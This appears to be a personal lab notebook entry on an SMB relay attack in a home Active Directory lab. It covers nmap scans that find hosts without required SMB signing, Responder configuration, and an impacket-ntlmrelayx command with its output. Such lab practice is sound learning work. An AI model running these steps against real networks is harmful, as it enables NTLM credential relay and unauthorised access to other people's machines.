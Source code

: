 #smbrelayattack
#smbsigningdisabled
## SMB Relay Attacks Lab

1. Identify the host without SMB signing enabled
Command: `nmap script=smb2-security-mode.nse -p445 192.168.64.0/24 -Pn | grep not`

`-Pn` - Treats all hosts as online, skipping host discovery. This is useful if you know the host is up but it isn't responding to ICMP echo requests (ping).


Here is the result

- For the domain controller, we cannot take advantage and use the SMb relay attack because **Message signing is enabled and required** 

```
┌──(root㉿kali)-[~]
└─# nmap --script=smb2-security-mode.nse -p445 192.168.64.250 -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-14 16:59 PDT
Nmap scan report for 192.168.64.250
Host is up (0.0060s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 16:91:DE:D1:61:68 (Unknown)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds

```

- For the two domain computers joined to the Domain controller (192.168.64.220 and 192.168.64.221) an SMb relay attack can be executed because **Message signing is enabled but not required**. Please see below

```
┌──(root㉿kali)-[~]
└─# nmap --script=smb2-security-mode.nse -p445 192.168.64.220 -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-14 16:59 PDT
Nmap scan report for 192.168.64.220
Host is up (0.0011s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 4E:4F:0D:0B:16:40 (Unknown)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds

┌──(root㉿kali)-[~]
└─# nmap --script=smb2-security-mode.nse -p445 192.168.64.221 -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-14 17:00 PDT
Nmap scan report for 192.168.64.221
Host is up (0.0074s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 8E:27:0F:FF:34:D1 (Unknown)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 0.36 seconds
 
```


2. After we identified the targets, put it in text file targets.txt

![[Pasted image 20240714202517.png]]

3. Change the responder configuration file to **SMB=OFF and HTTP=OFF**
`sudo mousepad /etc/responder/Responder.conf`

![[Pasted image 20240714202746.png]]

Check if they are off by running the command `sudo responder -I eth0 -dwPv`

4. Setup ntlmrelayx while the responder is running

	- If you have pimpmykali installed, just use ntmrelay
	- If you haven't pimpmykali, you can use the impacket-ntmlrelayx - newer version but not sure if it will work

```
impacket-ntlmrelayx -tf targets.txt smb2support
```

```
┌──(kali㉿kali)-[~]
└─$ impacket-ntlmrelayx -tf targets.txt -smb2support
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections

```

Execute the smb


![[Pasted image 20240714210802.png]]

We cant access but we captured the logs in kali

![[Pasted image 20240714210939.png]]


